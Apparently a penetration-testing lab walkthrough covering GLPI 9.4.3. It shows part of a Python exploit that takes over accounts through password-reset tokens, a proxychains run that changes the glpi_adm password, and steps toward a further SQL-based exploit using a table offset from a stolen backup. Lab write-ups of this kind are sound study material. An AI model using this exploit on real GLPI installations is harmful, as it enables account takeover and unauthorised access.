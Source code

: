 ```python
        if email:
            if not self.lost_password_request(email):
                print("[-] Lost password error: could not request")
                return

            new_tokens = self.get_forget_token()

            if new_tokens is not None:  # chatgpt recommendation
                print("New Tokens:", new_tokens)  # chatgpt edit
                res = list(set(new_tokens) - set(tokens))
                if res:
                    print("Res Tokens:", res)  # Add this line for debugging
                    for token in res:
                        try:
                            if self.change_password(email, password, token):
                                print("[+] Password changed! ;)")
                                return
                        except Exception as e:
                            print(f"[-] Change password error: {e}")
            else:
                print("[-] Error getting new tokens")  # chatgpt recommendation


if __name__ == '__main__':

    parser = argparse.ArgumentParser()
    parser.add_argument("--url", help="Target URL", required=True)
    parser.add_argument("--user", help="Username", required=True)
    parser.add_argument("--password", help="Password")

```


# this script worked and changed the password.
https://github.com/SamSepiolProxy/GLPI-9.4.3-Account-Takeover/blob/main/reset.py

```powershell
[root💀~/SUT/offshore/mgmt01] [10.10.14.39] [2024-01-20 22:32:29] 
 └─╼ # proxychains python3 reset.py --url http://172.16.2.12/ --user normal --password normal --email glpi_adm@offshore.com --newpass passwords
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[+] Password changed! ;
```
when you go to login take off the `@offshore.com` portion and only utilize the `glpi_adm` `passwords`

in order to grab the `offset` utilized this script https://www.exploit-db.com/exploits/49992 to get the directions to download the `sql` backup from screenshot below when logged in as `glpi_adm`
![[Pasted image 20240120225621.png]]
unzip the file and use command below to get the offset which is `313`
```powershell
[root💀~/SUT/offshore/mgmt01] [10.10.14.39] [2024-01-20 22:53:32] 
 └─╼ # cat glpi-backup-9.4.3-2024-01-21-04-51.sql | grep "CREATE TABLE" | grep -n wifinetworks                                                                                                              
313:CREATE TABLE `glpi_wifinetworks` (

```
